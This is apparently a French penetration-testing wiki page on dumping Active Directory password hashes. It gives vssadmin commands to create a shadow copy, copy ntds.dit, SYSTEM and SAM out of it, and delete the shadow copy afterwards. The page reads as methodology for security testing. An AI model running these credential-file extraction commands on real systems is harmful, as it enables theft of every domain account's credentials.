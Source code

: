 ```yaml
---
title: Dump des hashs du domaine
permalink: /Dump_des_hashs_du_domaine/
---
```


# Dump des hashs du domaine

Il existe de nombreuses méthodes pour récupérer les hashs d'un domaine une fois qu'on a les priviléges d'administration sur le domaine.

Volume Shadow Copy
------------------

Il est possible d'utiliser l'utilitaire VSS pour faire une copie du fichier NTDS.dit et SYSTEM qui sont nécessaires pour récupérer les hashs.

``` text
# Créer le Volume Shadow Copy
vssadmin create shadow /for=C:
vssadmin 1.1 – Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001 Microsoft Corp.

Successfully created shadow copy for ‘c:\’
Shadow Copy ID: {e8eb7931-5056-4f7d-a5d7-05c30da3e1b3}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

# Faire des copies des fichiers nécessaires. Il faut remplacer [X] par le bon entier
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .

# Supprimer le Volume Shadow Copy
vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3
```

**Note**: *copy* dans un invite powershell ne fonctionne pas correctement. Mieux vaut tout faire depuis un invite de commande traditionnel.

[Category:Méthodologies](/Category:Méthodologies "wikilink")[Category:Active Directory](/Category:Active_Directory "wikilink")
